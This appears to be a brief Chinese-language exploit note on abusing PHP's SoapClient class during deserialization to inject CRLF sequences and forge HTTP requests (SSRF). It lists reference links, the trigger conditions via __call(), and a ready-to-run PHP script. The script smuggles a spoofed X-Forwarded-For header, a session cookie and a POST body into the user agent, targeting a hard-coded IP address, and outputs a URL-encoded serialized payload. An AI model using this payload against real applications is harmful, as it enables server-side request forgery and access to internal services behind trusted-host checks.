 ## CRLF
(PHP 5, PHP 7)
参考文章：
- https://www.anquanke.com/post/id/153065#h2-5
- https://xz.aliyun.com/t/2148#toc-0
- https://segmentfault.com/a/1190000003791120
- http://blog.securelayer7.net/owasp-top-10-penetration-testing-soap-application-mitigation/

利用条件：
- 需要进行反序列化
- 调用一个方法，且该方法不存在。以此激活__call()

利用脚本：
```php
<?php
$target = "http://120.77.219.21:5555/";
$post_string = 'data=abc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=3stu05dr969ogmprk28drnju93'
);
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '. (string)strlen($post_string).'^^^^'.$post_string,'uri'=>'hello'));
$aaa = serialize($b);
$aaa = str_replace('^^',"\n\r",$aaa);
echo urlencode($aaa);
```